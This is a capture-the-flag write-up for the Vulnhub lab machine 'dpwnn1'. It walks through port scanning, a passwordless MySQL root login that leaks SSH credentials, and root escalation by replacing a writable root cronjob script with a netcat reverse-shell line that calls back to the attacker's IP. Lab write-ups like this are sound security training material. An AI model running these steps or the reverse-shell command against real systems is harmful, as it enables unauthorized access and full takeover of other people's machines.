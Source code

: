 ```yaml
---
layout:     post
title:      "Vulnhub - dpwnn1"
subtitle:   "Write-Up"
date:       2019-08-01 
author:     "D4mianwayne"
tag:      nmap, ctf, vulnhub
category: Vulnhub
---
```


# Nmap

Starting off with the nmap, using `nmap -sV -sC -A 192.168.43.59` shows us that 22, 80 and 3306 i.e. SSH, HTTP, MySQL are open respectively.

![](/img/dpwwn/nmap.png)

# HTTP and MySQL Enumeration 

I fired up the gobuster and while it was running I tried to check that HTTP server and the source in order to find something useful but somehow it's not relevant in any way and the gobuster has only given `/info.php` which as also not useful. So I tried MySQL service, using `mysql -h 192,168.43.59 -u root` which logged us into the mysql service of the machine. Using `SHOW DATABASES;` shows us that we have a database named `ssh`, selecting that database with `USE ssh` which has a table named `users` which can be seen by providing the command `SHOW TABLES;` and finally using `SELECT * FROM users` shows us that user and it's corresponding password which was `mistic:testP@$$swordmistic`.

![](/img/dpwwn/mysql.png)

# SSH Login and Root Flag

Using the credentials we found above, we logged into the ssh as user mistic. 

![](/img/dpwwn/ssh.png)

For the root, it was easy since the working directory of user mistic has a file `logrot.sh` which was a cronjob runs by the root and was collecting logs.
Checking the permission we can see that it can be edited by the user mistic so using `vi logrot.sh` and changing the mode to the input I entered the follwoing data whch will spawn the root shell as reverse callback due to that cronjob running.

```bash
[mistic@dpwwn-01 ~]$ cat logrot.sh
#!/bin/bash
nc -e /bin/bash 192.168.43.243 1234

```

Hence, spawning the root shell.

![](/img/dpwwn/root.png)

##### Root flag

Well, all the way down here for the flag:-

![](/img/dpwwn/rootflag.png)